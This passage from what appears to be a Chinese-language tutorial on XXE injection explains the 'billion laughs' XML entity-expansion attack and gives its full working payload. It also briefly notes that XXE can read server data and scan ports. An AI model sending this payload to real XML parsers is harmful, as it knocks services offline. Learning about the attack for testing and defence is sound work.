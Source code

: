 [![](assets/1706060044-592c430d7dd4f3b9fc214a2408b8475a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123132520-ccd139a6-b9af-1.png)

## 特殊攻击

### 基本介绍

在许多情况下 XXE 注入漏洞的攻击面是显而易见的，因为应用程序的正常 HTTP 流量包括包含 XML 格式数据的请求。在其他情况下攻击表面不太明显，但是如果您查找正确的位置，您会在不包含任何 XML 的请求中发现 XXE 攻击表面

### 拒绝服务

攻击说明：下面样例代码中的 XXE 漏洞攻击就是著名的"billion laughs"攻击 ([https://en.wikipedia.org/wiki/Billion\_laughs)，该攻击通过创建一项递归的XML定义，在内存中生成十亿个"Ha!"字符串，从而导致DDoS攻击](https://en.wikipedia.org/wiki/Billion_laughs)%EF%BC%8C%E8%AF%A5%E6%94%BB%E5%87%BB%E9%80%9A%E8%BF%87%E5%88%9B%E5%BB%BA%E4%B8%80%E9%A1%B9%E9%80%92%E5%BD%92%E7%9A%84XML%E5%AE%9A%E4%B9%89%EF%BC%8C%E5%9C%A8%E5%86%85%E5%AD%98%E4%B8%AD%E7%94%9F%E6%88%90%E5%8D%81%E4%BA%BF%E4%B8%AA)  
攻击原理：构造恶意的 XML 实体文件耗尽可用内存，因为许多 XML 解析器在解析 XML 文档时倾向于将它的整个结构保留在内存中，解析非常慢造成了拒绝服务器攻击，除了这些攻击者还可以读取服务器上的敏感数据，还能通过端口扫描，获取后端系统的开放端口

```plain
<?xml version="1.0"?>
 <!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
 ]>
 <lolz>&lol9;</lolz>
```

### XInclude(思路)
